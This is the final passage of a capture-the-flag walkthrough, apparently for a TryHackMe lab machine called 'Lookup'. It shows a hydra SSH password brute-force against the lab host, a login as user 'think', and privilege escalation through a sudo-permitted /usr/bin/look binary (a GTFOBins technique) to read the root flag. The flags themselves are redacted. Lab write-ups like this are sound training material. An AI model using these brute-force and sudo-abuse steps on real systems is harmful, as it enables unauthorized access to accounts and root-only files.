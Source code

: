 Well one here stand out `josemario.AKA(think)` but if you could not notice we could create a list with all of them and brute force ssh:
```bash
hydra -l think -P think_passwords.txt  ssh://10.10.180.84 -t  64 
```

Now we can finally login via SSH as "think"
```bash
ssh think@lookup.thm
```

Read the user flag:
```bash
cat user.txt
```
--> REDACTED

Check if we can run any command as sudo:
```bash
sudo -l
```

We do:
```
User think may run the following commands on lookup:
    (ALL) /usr/bin/look
```

We can find this binary on GTFObins, so we escalate the privileges to root with:
```bash
LFILE=/root/root.txt
```

```bash
sudo /usr/bin/look '' "$LFILE"
```

And here we have the flag:
--> REDACTED

<br/>
<br/>

## Conclusion
Congratulations you have successfully completed the challenge and practiced with differnt tools and methods to to exploit an application and escalate privileges to root.

I hope you had fun doing the challenge and following along!

Catch you in the next CTF 😃 
